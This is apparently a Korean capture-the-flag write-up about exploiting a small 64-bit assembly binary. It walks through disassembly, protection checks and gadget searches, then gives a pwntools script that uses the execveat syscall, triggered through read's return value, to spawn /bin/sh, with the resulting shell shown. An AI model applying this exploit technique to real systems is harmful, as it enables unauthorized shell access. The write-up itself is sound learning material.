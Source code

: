 # 상준이가 문제 줌#1

![ScreenShot](github.com/secretpack/CTF_Writeup/s0ngsaris_study/Homework/image/sc1.JPG)  

---

문제를 풀 때 당시 64bit pwnable은 아직 익숙하지 않았다.  

일단 IDA로 해당 파일을 열어보았다.

```
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 xor     rbx, rbx
.text:00000000004000B6                 xor     rcx, rcx
.text:00000000004000B9                 xor     rdx, rdx
.text:00000000004000BC                 xor     rdi, rdi
.text:00000000004000BF                 xor     rsi, rsi
.text:00000000004000C2                 xor     r8, r8
.text:00000000004000C5                 xor     r9, r9
.text:00000000004000C8                 xor     r10, r10
.text:00000000004000CB                 xor     r11, r11
.text:00000000004000CE                 xor     r12, r12
.text:00000000004000D1                 xor     r13, r13
.text:00000000004000D4                 xor     r14, r14
.text:00000000004000D7                 xor     r15, r15
.text:00000000004000DA                 xor     rbp, rbp
.text:00000000004000DD                 call    sub_4000F2
.text:00000000004000E2                 mov     eax, 3Ch
.text:00000000004000E7                 xor     rdi, rdi
.text:00000000004000EA                 xor     rsi, rsi
.text:00000000004000ED                 xor     rdx, rdx
.text:00000000004000F0                 syscall
```

젠장 끝이다... 어셈으로 짜여진 파일인것 같다.

우선 xor 연산을 통해 보이는 레지스터의 값을 모두 0으로 만든다

그리고 sub_4000F2 함수를 call 한다. 저기에 뭐가 있는지 봐야겠지?

```
4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
4000f9:       48 89 e6                mov    %rsp,%rsi
4000fc:       ba 48 01 00 00          mov    $0x148,%edx
400101:       0f 05                   syscall
```

#### ~FUCKING

0x128(296)byte 만큼의 공간을 할당한다 그리고 rsi 레지스터에 해당 값을 넣는다.

그리고 edx(rdx) 에 0x148을 넣는다. 그리고 syscall 을 통해 특정 함수를 호출한다.

자 이제 어떤 함수일까...

먼저 rax 가 0이므로 64bit systemcall number 0인 read 함수가 호출된다.

rdx 또한 0으로 초기화 되어 있고 rsi rdx 에 어떤 값이 들어가는 지 알고 있다.

이걸 대충 C언어로 바꾸면 다음과 같다.

```c
#include <stdio.h>

int main()
{
    read(0, buf, 148);
}
```
혹시 그럴리 없겠지만 syscall number를 모를 경우 디버깅을 통해 확인할 수 있다.

```
RAX  0x0
RBX  0x0
RCX  0x0
RDX  0x148
RDI  0x0
RSI  0x7fffffffe470 ◂— 0x0
R8   0x0
R9   0x0
R10  0x0
R11  0x0
R12  0x0
R13  0x0
R14  0x0
R15  0x0
RBP  0x0
RSP  0x7fffffffe470 ◂— 0x0
RIP  0x400101 ◂— syscall
─────────────────────────────────[ DISASM ]─────────────────────────
  0x4000f2    sub    rsp, 0x128
  0x4000f9    mov    rsi, rsp
  0x4000fc    mov    edx, 0x148
► 0x400101    syscall  <SYS_read>
       fd: 0x0
       buf: 0x7fffffffe470 ◂— 0x0
       nbytes: 0x148
```

흠 우선 풀기 전에 어떤 보호 기법이 적용되어 있는지 확인해볼 필요가 있다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec attackme
[*] '/home/secretpack/Desktop/attackme'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX enable 이므로 shellcode를 쓸 수가 없다.

그렇다면 다른 방법을 강구해야 한다. 검색을 하던중 [Sigreturn을 이용한 SROP](https://www.lazenca.net/plugins/servlet/mobile?contentId=16810278#content/view/16810278)와 관련된 문서를 보게 되었다. 이를 시도 했으나 64bit에서 sigreturn 함수의 systemcall number는 15 이다. 방법이 없지는 않겠지만 내가 알고있는 선에서는 이 방법을 사용해 풀 수가 없다는 판결을 내렸다.

그리고 상준이가 문제 해결을 위한 힌트를 줬다.

```
[상준] [오후 9:58] 자
[상준] [오후 9:58] 힌트준다
[상준] [오후 9:58] 64bit에서는
[상준] [오후 9:58] execveat이라는
[상준] [오후 9:58] 엄청난 시스콜이잇다
[상준] [오후 9:59] 한번 검색해서봐라
```

##### 검색해보자!

```c
#include <unistd.h>

int execveat(int dirfd, const char *pathname,
             char *const argv[], char *const envp[], int flags);
```
인자가 엄청 많은데...

manpage 를 잘 읽어보면 이 함수를 사용하여 /bin/sh를 실행할 수 있다.

```c
execveat(0,"/bin/sh",NULL,NULL,0);
```

요롷게 들어가면 쉘이 실행된다고 한다.

혹시나!! ROPGadget을 이용해서 pop rax 가젯이 있는지 먼저 찾아봤다.

```
secretpack@ubuntu:~/Desktop$ ROPgadget --binary attackme
Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x0000000000400101 : syscall ; add rsp, 0x128 ; ret
```

역시나 없다..

read 함수의 manpage를 읽어보면 read함수는 입력받은 문자열의 길이를 return 한다고 나와있다. 함수의 리턴값은 rax 레지스터에 저장된다. 어??? 이것을 이용하여 공격을 하면 될것 같다.

execveat 함수에 들어가는 rsi는 파일 이름이고 read 함수의 rsi는 입력값이다.
그렇다면 익스플로잇 코드를 작성할때 "/bin/sh\x00"를 앞에 쓰고 그 뒤에 버퍼를 채워주면
실질적인 문자열은 /bin/sh이므로 execveat() 함수의 두번째 인자에 저 문자열을 전달 할 수 있다.

##### 2018.12.19
최종적으로 문제풀이를 완료 했다.
익스플로잇 코드를 작성하였으나 뜻대로 들어가지 않았고 본의 아니게 삽질 했다.
rdx 레지스터가 이상한 값으로 세팅되어 있어서 그랬다...

xor rdx, rdx 를 가져와 문제 풀이에 사용하였고 성공했다.

```python
from pwn import*

p = remote("./attackme")

syscall = 0x400101
zero_rdx = 0x4000ed

payload = "/bin/sh\x00"
# payload += "A" * (0x128 - 8)
payload += "A" * (0x148 - (8 * 4) - 8) # 실제로 ret 부분 앞까지 계산
payload += p64(zero_rdx)
payload += p64(syscall)
payload += "A" * (0x142 - len(payload) - 1) # execveat

p.sendline(payload)
p.interactive()
```
```
secretpack@ubuntu:~/Desktop$ python test.py
[+] Starting local process './attackme': pid 59820
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm)
$  

```
힘들었다... 당분간은 디버깅 연습을 많이 해야 겠다.
